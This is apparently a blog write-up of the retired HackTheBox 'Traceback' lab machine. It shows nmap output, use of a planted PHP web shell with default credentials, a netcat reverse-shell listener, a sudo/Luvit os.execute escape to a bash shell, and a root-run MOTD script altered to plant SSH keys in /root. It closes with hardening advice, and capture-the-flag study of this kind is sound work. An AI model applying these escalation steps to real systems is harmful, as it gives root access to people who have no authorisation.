

+++
authors = ["Matt Johnson"]
title = 'HTB: Traceback Writeup'
date = '2020-08-23'
description = "Here's how to solve HackTheBox's Traceback."
draft = false
tags = ["hackthebox","security"]
summary = "Here's how to solve HackTheBox's Traceback."
+++



# High-Level Information

Machine Name: Traceback

IP Address: 10.10.10.181

Difficulty: Easy

Summary: HackTheBox's Traceback was retired this past week, and it was a relatively straightforward box that required no active exploitation. The home page of the website hosted on port 80 claimed that the site had been "owned" and that a backdoor existed on the site. Reading the source code of that page provided a peculiar comment that, when googled, pointed towards a [GitHub repository of web shells](https://github.com/TheBinitGhimire/Web-Shells). Attempting to access each of these web shells on the "owned" site eventually led to the discovery of `smevk.php`. Logging in to the page using its default credentials provides a stereotypical looking "hacker" interface in which one can execute arbitrary code. From there, I was able to get a low shell as the `webadmin` user. Using `sudo` in conjunction with the `os.execute()` function within Luvit, I was able to escalate privileges to the `sysadmin` user. As the `sysadmin` user, I was able to modify the MOTD script used to provide a login banner for SSH to add my public key to the `root` user's `authorized_keys` file. As the script was run on a cronjob as the `root` user, it was simply a matter of time before I was able to easily walk through the front door.

Tools Used: Nmap, Gobuster, Netcat, [linPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)

# Initial Foothold

As always, I began by running Nmap:

```shell
matt@kali:~$ /opt/stagednmap.sh 10.10.10.181
Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-21 11:43 CDT
Nmap scan report for 10.10.10.181
Host is up (0.057s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
Nmap done: 1 IP address (1 host up) scanned in 35.99 seconds
Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-21 11:43 CDT
Nmap scan report for 10.10.10.181
Host is up (0.053s latency).
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 96:25:51:8e:6c:83:07:48:ce:11:4b:1f:e5:6d:8a:28 (RSA)
|   256 54:bd:46:71:14:bd:b2:42:a1:b6:b0:2d:94:14:3b:0d (ECDSA)
|_  256 4d:c3:f8:52:b8:85:ec:9c:3e:4d:57:2c:4a:82:fd:86 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Help us
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.42 seconds
matt@kali:~$
```

With only ports 22 and 80 open, I began to enumerate the website:

 

Interestingly, the page claimed that the site had been "owned" and that there was a backdoor. Unfortunately, additional details were pretty sparse, so I decided to move on.

With no links to follow nor obvious exploits available, I attempted to enumerate directories using Gobuster. Unfortunately, that was equally fruitless. With little else to do, I inspected the source code of the main page, which contained a peculiar comment:



Googling the phrase led to the discovery of a [GitHub repository of web shells](https://github.com/TheBinitGhimire/Web-Shells). Using that information, I was able to find the backdoor at `/smevk.php`.


The default credentials of `admin:admin` were accepted, and I was brought to a console that seemingly let me remotely execute code.

After testing to ensure that it actually did what it purported to do, I ran a Perl script that resulted in a low shell:


```shell
matt@kali:~$ sudo netcat -nvlp 1234
listening on [any] 1234 ...
connect to [10.10.14.25] from (UNKNOWN) [10.10.10.181] 55922
/bin/sh: 0: can't access tty; job control turned off
$ whoami
webadmin
$ id
uid=1000(webadmin) gid=1000(webadmin) groups=1000(webadmin),24(cdrom),30(dip),46(plugdev),111(lpadmin),112(sambashare)
$
```

# Privilege Escalation

The account that I got a low shell on, `webadmin`, was relatively locked down and rightly so. However, it did have the ability to run [luvit](https://luvit.io/) as the `sysadmin` user. Luvit has a built in ability to execute system code via the `os.execute()` function, which I used to get a less restrictive shell:

```shell
webadmin@traceback:/var/www/html$ sudo -H -u sysadmin /home/sysadmin/luvit
Welcome to the Luvit repl!
> os.execute ("whoami")
sysadmin
true    'exit'  0
> os.execute ("pwd")
/var/www/html
true    'exit'  0
> os.execute ("ls /home/sysadmin")
luvit  user.txt
true    'exit'  0
> os.execute ("ls -la /home/sysadmin")
total 4340
drwxr-x--- 5 sysadmin sysadmin    4096 Jun 21 10:54 .
drwxr-xr-x 4 root     root        4096 Aug 25  2019 ..
-rw------- 1 sysadmin sysadmin       1 Aug 25  2019 .bash_history
-rw-r--r-- 1 sysadmin sysadmin     220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 sysadmin sysadmin    3771 Apr  4  2018 .bashrc
drwx------ 2 sysadmin sysadmin    4096 Aug 25  2019 .cache
drwxrwxr-x 3 sysadmin sysadmin    4096 Aug 24  2019 .local
-rw-r--r-- 1 sysadmin sysadmin     177 Jun 21 10:58 .luvit_history
-rw-r--r-- 1 sysadmin sysadmin     807 Apr  4  2018 .profile
drwxr-xr-x 2 root     root        4096 Aug 25  2019 .ssh
-rwxrwxr-x 1 sysadmin sysadmin 4397566 Aug 24  2019 luvit
-rw------- 1 sysadmin sysadmin      33 Jun 19 15:13 user.txt
true    'exit'  0
> os.execute ("/bin/bash -i")
sysadmin@traceback:/var/www/html$
```

As `sysadmin`, I ran linPEAS to see what possible vectors existed to get to root. One of the things that stood out was that all of the MOTD scripts were group-writable.

For those who don't know, MOTD stands for "Message of the Day" and it is principally responsible for displaying the login message when someone logs in to a shell (via SSH, for example). What's convenient, for someone with malicious intent anyways, is that those login scripts are bash, which of course means you can do some pretty powerful stuff. In this case, those scripts were being executed as `root`!

The script executed upon login is typically `00-header`:

```bash
#!/bin/sh
#
#    00-header - create the header of the MOTD
#    Copyright (C) 2009-2010 Canonical Ltd.
#
#    Authors: Dustin Kirkland <kirkland@canonical.com>
#
#    This program is free software; you can redistribute it and/or modify
#    it under the terms of the GNU General Public License as published by
#    the Free Software Foundation; either version 2 of the License, or
#    (at your option) any later version.
#
#    This program is distributed in the hope that it will be useful,
#    but WITHOUT ANY WARRANTY; without even the implied warranty of
#    MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
#    GNU General Public License for more details.
#
#    You should have received a copy of the GNU General Public License along
#    with this program; if not, write to the Free Software Foundation, Inc.,
#    51 Franklin Street, Fifth Floor, Boston, MA 02110-1301 USA.
[ -r /etc/lsb-release ] && . /etc/lsb-release
echo "\nWelcome to Xh4H land \n"
```

To verify that this was actually the case, I added my RSA public key to the `sysadmin` user's `authorized_keys` file and logged in via SSH:

```shell
matt@kali:~/.ssh$ ssh -i id_rsa sysadmin@10.10.10.181
#################################
-------- OWNED BY XH4H  ---------
- I guess stuff could have been configured better ^^ -
#################################
Welcome to Xh4H land
Last login: Mon Mar 16 03:50:24 2020 from 10.10.14.2
$ id
uid=1001(sysadmin) gid=1001(sysadmin) groups=1001(sysadmin)
$
```

It appeared as though that was the case, so from there the plan was straightforward. I modified the script to copy `/home/sysadmin/.ssh/authorized_keys` to `/root/.ssh/authorized_keys`, echoed a message to confirm that the modified script ran as desired, and logged in via SSH:

```bash
#!/bin/bash
#
#    00-header - create the header of the MOTD
#    Copyright (C) 2009-2010 Canonical Ltd.
#
#    Authors: Dustin Kirkland <kirkland@canonical.com>
#
#    This program is free software; you can redistribute it and/or modify
#    it under the terms of the GNU General Public License as published by
#    the Free Software Foundation; either version 2 of the License, or
#    (at your option) any later version.
#
#    This program is distributed in the hope that it will be useful,
#    but WITHOUT ANY WARRANTY; without even the implied warranty of
#    MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
#    GNU General Public License for more details.
#
#    You should have received a copy of the GNU General Public License along
#    with this program; if not, write to the Free Software Foundation, Inc.,
#    51 Franklin Street, Fifth Floor, Boston, MA 02110-1301 USA.
[ -r /etc/lsb-release ] && . /etc/lsb-release
echo "\nWelcome to Xh4H land \n"
cp /home/sysadmin/.ssh/authorized_keys /root/.ssh/authorized_keys
echo 'try logging in as root \n'
```

```shell
matt@kali:~/.ssh$ ssh -i id_rsa sysadmin@10.10.10.181
#################################
-------- OWNED BY XH4H  ---------
- I guess stuff could have been configured better ^^ -
#################################
\nWelcome to Xh4H land \n
try logging in as root \n
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings
Last login: Sat Jun 27 09:29:38 2020 from 10.10.14.35
$ exit
Connection to 10.10.10.181 closed.
matt@kali:~/.ssh$ ssh -i id_rsa root@10.10.10.181
#################################
-------- OWNED BY XH4H  ---------
- I guess stuff could have been configured better ^^ -
#################################
Welcome to Xh4H land
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings
Last login: Fri Jan 24 03:43:29 2020
root@traceback:~# id
uid=0(root) gid=0(root) groups=0(root)
root@traceback:~#
```

# Discussion

As this box was simpler than some of the others I've done in the past, I'll try to keep this section pretty short. There are two relevant discussion topics for this box, both of which related to privilege escalation.

## Topic #1: Breaking Out of the Restricted Environment

The fact that the initial shell was so restricted was good. Any system interaction with the cold and uncaring outside world should come with a healthy dose of skepticism. However, the mistake made was allowing that restricted user to interact with programs that could allow them to break out of their metaphorical "jail cell". Luvit, or any program where interaction with the underlying system is possible, for that matter, should be restricted to users who are trusted. Without that ability, it's likely that I would not have been able to escalate privileges at all.

## Topic #2: MOTD

One would think that a systems administrator, as is implied by the `sysadmin` accout, may want to change the message presented to users upon login. In fact, [some security frameworks require it](https://nvd.nist.gov/800-53/Rev4/control/AC-8). However, all that's needed to modify that is write-access to `/etc/motd`. Given that update-motd scripts (dynamic MOTD) are run as `root` via the PAM module, any ability to modify those scripts should be carefully considered when designing the system. I'd err on the side of disabling dynamic MOTD altogether unless there's a particular reason that it is needed. In order to disable it, one could run `sudo apt-get purge update-motd` or `sudo chmod -x /etc/update-motd.d/*`.